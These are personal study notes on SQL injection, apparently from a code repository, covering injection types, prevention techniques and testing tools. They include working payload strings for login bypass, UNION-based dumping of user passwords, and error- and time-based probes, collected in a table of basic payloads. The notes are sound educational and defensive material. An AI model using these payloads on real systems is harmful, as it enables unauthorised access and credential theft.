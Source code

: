 # SQL Injection (SQLi) – Notes

## What is SQLi?

**SQL Injection** is a vulnerability that occurs when user input is **unsafely** included in SQL queries, allowing attackers to:

- Read or modify the database
- Bypass login/authentication
- Dump sensitive data
- Execute administrative operations

---

## How it works

Untrusted input is **injected directly** into an SQL query:

```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'pass';
```

If unsanitized, attacker inputs:

```sql
' OR 1=1 --
```

Query becomes:

```sql
SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = '';
```

Always true → Authentication bypassed.

---

# Types of SQL Injection

---

## 1. **Classic / In-band SQLi**

Direct results in the browser/app.

### a. **Error-based**

- Forces the database to generate errors that leak data.
    
- Example:
    
```sql
' AND extractvalue(1, concat(0x7e, version())) --
```
    

### b. **Union-based**

- Uses `UNION` to combine results from multiple queries.

- Example:

```sql
' UNION SELECT null, username, password FROM users --
```


---

## 2. **Blind SQLi**

App doesn’t show errors, but you infer behavior from responses.

### a. **Boolean-based**

- Send payloads that change the logic and observe differences.Z
- Example:

 ```sql
 ' AND 1=1 --  (returns normal)    ' AND 1=2 --  (returns blank/error)
 ```


### b. **Time-based**

- Uses delays (e.g., `SLEEP(5)`) to detect if the query ran.

- Example:

```sql
  ' OR IF(1=1, SLEEP(5), 0) --
```

---

## 3. **Out-of-Band SQLi**

- Uses **external interactions** (DNS, HTTP) to exfiltrate data.
- Only possible if DB supports external calls (e.g., `LOAD_FILE`, `xp_dirtree` on MSSQL).

---

## 4. **Second-Order SQLi**

- Injection is stored in the database and executed later in a different query.    
- Happens when an app stores unsafe input and reuses it insecurely.

---

# Prevention

| Technique                    | Description                                  |
| ---------------------------- | -------------------------------------------- |
| Prepared statements / ORM    | Use parameterized queries (no string concat) |
| Input validation             | Whitelist expected input types               |
| Escaping user input          | Escape dangerous characters (fallback only)  |
| Principle of Least Privilege | DB users should have only needed access      |
| Web Application Firewalls    | Can detect/stop some SQLi attempts           |

---

# Real-world SQLi payloads (basic)

|Goal|Payload|
|---|---|
|Bypass login|`' OR 1=1 --`|
|Detect blind SQLi|`' AND 1=1 --` vs `' AND 1=2 --`|
|Time-based detection|`' OR SLEEP(5) --`|
|Extract DB name|`' UNION SELECT database(), null --`|
|Dump all users|`' UNION SELECT user, password FROM users --`|

---

# Tools for testing:

- `sqlmap` (automated SQLi tool)
- `Burp Suite`
- `requestbin` (for OOB testing)
- Custom scripts with curl/python

---

# Don't forget:

SQLi is **one of the most dangerous and common web vulnerabilities** (OWASP Top 10).

Always use **prepared statements** (e.g., `cursor.execute("SELECT * FROM users WHERE id = ?", [user_id])`)

---

# Mitigation

Simply encode data, use prepared statements and validate inputs.

---
